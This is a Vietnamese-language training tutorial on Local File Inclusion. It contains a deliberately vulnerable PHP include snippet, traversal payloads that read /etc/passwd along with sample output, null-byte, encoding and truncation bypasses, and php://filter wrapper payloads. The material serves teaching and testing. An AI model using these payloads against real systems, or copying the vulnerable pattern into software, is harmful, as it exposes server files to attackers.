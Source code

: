 # LFI (File Inclusion Vulnerability)

## 1. LFI là gì
LFI là một kĩ thuật tấn công cho phép kể tấn công có thể xem các tệp tin trên máy chủ từ xa của victim mà không cần không cần nhìn thấy hoặc có thể thực thi các mã vào 1 mục tiêu bất kì trên trang web.

Điều này xảy ra đa phần là các trang web có chứa ngôn ngữ PHP, các function dùng để gọi file khác vào như `require`, `include`, `include_once`, `require_once`. 

<p align="center">
  <img src="https://www.immuniweb.com/images/vulnerability/previews/php-file-inclusion-cwe-98.jpg" />
</p>
<center><small>`CWE-98 by PLOVER | Submission Date: 2006-07-19`</small></center>

Hiện nay thì các trang web ngoài sử dụng PHP còn có NodeJS và Python có khả năng lỗi ít hơn nhưng không phải là không có. Tương tự như php thì NodeJS có 1 số function như `require()`, `fs.readFile()`, `fs.readFileSync()`...
Hiện nay thì LFI/RFI được đưa vào top 10 OWASP được coi là "tiêu chuẩn" trong việc kiểm thử website.

## 2. Trong thực tế LFI được khai thác như thế nào

Trên thực tế thì có khá nhiều cách để khai thác lỗ hổng này:

Ví dụ vô cùng điển hình để đọc file passwd
```php
<?php
include $_GET['page'];
?>

```
```
http://example.com/index.php?page=../../../etc/passwd
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
hyp:x:1000:1000:,,,:/home/hyp:/bin/bash
```

### a. Null byte (%00)

Null byte dùng để bypass các kí tự đằng sau nó

```php
<?php
include $_GET['page'].'.php';
?>
```

```
http://example.com/index.php?page=../../../etc/passwd%00
```
(Từ phiên bản PHP > 5.4 vấn đề này đã được giải quyét)
### b. Encoding Bypass:

Các kí tự đặc biệt có thể cần encoding URL 2 lần

```
/ => %2F => %252F
& => %26 => %2526
% => %25 => %2525
= => %3D => %253D
```
### c. Path truncation
Kĩ thuật này dùng dể bỏ qua phần nối đằng sau có kí tự nhiều hơn.

```php
<?php
include $_GET['page'].'.php';
?>
```

Ta sẽ gửi param GET vượt quá 4096 kí tự.

### d. PHP Wrapper

Điều này yêu mã code tại file muốn đọc bắt buộc phải encode theo 1 cách gì đó trước khi gửi cho người dùng (phổ biến trong CTF)

```
?page=php://filter/read=string.rot13/resource=index
?page=php://filter/convert.base64-encode/resource=index
?page=php://filter/zlib.deflate/convert.base64-encode/resource=
```

Ngoài ra còn có `zip://`, `data://`, `expect://`, ` input://`, ` phar://`,...

Demo Notepad LFI: https://lfi-kcsc-training.glitch.me
Source: [hypnguyen1209/demo-lfi](https://github.com/hypnguyen1209/demo-lfi)


## 3. Tham khảo
https://securitydaily.net/tan-cong-file-inclusion/

https://www.immuniweb.com/vulnerability/php-file-inclusion.html

https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-rfi-using-php-wrappers
